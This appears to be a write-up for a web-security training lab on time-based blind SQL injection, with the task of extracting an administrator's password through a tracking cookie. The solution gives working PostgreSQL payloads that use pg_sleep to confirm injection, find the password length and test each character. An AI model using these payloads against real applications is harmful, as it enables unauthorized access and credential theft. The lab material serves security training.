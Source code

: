 # Lab: Blind SQL injection with time delays and information retrieval
## Task
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Solution
Firstly, I found this payload worked:  
```
'||(SELECT+CASE+WHEN(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
```
> The database is PostgreSQL.  


Then, with the following payload, I knew that the password's length is 20:  
```
'||(SELECT+CASE+WHEN(LENGTH((SELECT+password+FROM+users+WHERE+username='administrator'))=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
```  

Next, the payload to figure out each letter is:  
```
'||(SELECT+CASE+WHEN(SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
```
